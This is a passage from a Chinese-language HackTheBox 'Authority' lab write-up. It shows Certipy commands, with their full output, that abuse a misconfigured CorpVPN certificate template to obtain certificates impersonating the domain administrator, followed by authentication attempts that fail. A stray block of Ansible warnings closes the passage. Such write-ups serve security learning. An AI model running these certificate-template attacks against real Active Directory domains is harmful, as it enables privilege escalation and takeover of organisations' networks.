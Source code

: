 ```bash
[-] Failed to request certificate
```

##### certipy请求证书

隔了两天接着打，突然可以了？？  
之前还以为是option的问题，不过试了下上回报错的两个命令现在都可以：
```bash
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy req -u 'TEST$' -p 'qwerasdf' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222 -debug
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'authority.htb' at '10.10.11.222'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 9
[*] Got certificate with multiple identifications
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_authority.pfx'

┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy req -u 'TEST$' -p 'qwerasdf' -ca AUTHORITY-CA -template 'CorpVPN' -upn administrator -dc-ip 10.10.11.222 -debug
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

直接就获得pfx格式的证书了，执行后续步骤。不过两个证书都会报错 `KDC_ERR_PADATA_TYPE_NOSUPP`：
```bash
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'authority.htb' -dc-ip 10.10.11.222
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)

┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy auth -pfx 'administrator_authority.pfx' -username 'administrator' -domain 'authority.htb' -dc-ip 10.10.11.222
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@authority.htb'
    [1] DNS Host Name: 'authority.authority.htb'
> 0
[*] Using principal: administrator@authority.htb
```

[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available